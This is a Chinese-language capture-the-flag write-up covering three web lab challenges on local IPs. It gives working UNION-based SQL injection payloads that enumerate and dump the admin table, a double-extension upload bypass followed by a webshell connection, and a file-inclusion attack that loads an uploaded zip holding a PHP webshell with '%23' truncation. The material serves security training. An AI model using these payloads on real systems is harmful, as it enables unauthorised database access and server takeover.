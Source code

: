 ### 实操
找数据库名  
1' union select 1,1,database()#'  
找表名  
1' union select 1,1,table_name from information_schema.tables where table_schema='news'#  
找字段名  
1' union select 1,1,column_name from information_schema.columns where table_name='admin'#  
找flag  
1' union select 1,1,flag from admin#  
**这里的1,1,...是因为union构造的select必须字段数相同**


# 4 后缀限制
简陋的密码界面  

开浏览器调试工具  
在服务器response数据中找到password

既然有后端的**后缀限制**  
那么搞个虚假的后缀  
上传  
http://192.168.210.103/uploads/1.php.jpg

蚁剑直接连接  
flag随便一翻就找到了

# 5 ZIP伪协议
界面非常简陋啊
尝试上传php文件但是
上传有白名单，目录没有执行权限，不具备直接搞的条件  
文件包含：动态的形成文件包含，仅通过url执行本不能执行的shell

首先  
瞎改一下url  
报错  
Warning: require(fghjk,.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 67 Fatal error: require(): Failed opening required 'fghjk,.php' (include_path='.:/usr/share/pear:/usr/share/php') in /var/www/html/index.php on line 67  
出现绝对路径  

穿个一句话木马的压缩包
文件保存路径为:  
/var/www/html/upload/f84e64e150a8a0b8cd732340cfcf6da0.zip

访问压缩包  
http://192.168.210.96/index.php?url=upload/f84e64e150a8a0b8cd732340cfcf6da0.zip  

报错  
Warning: requ.....No such file or directory in /var/www/html/index.php on line 67 Fatal error: require(): Failed opening required 'upload/f84e64e150a8a0b8cd732340cfcf6da0.zip.**php**'....

竟然会自动添加一个php的后缀，注释掉就好了。  
\# 的url编码是`%23`
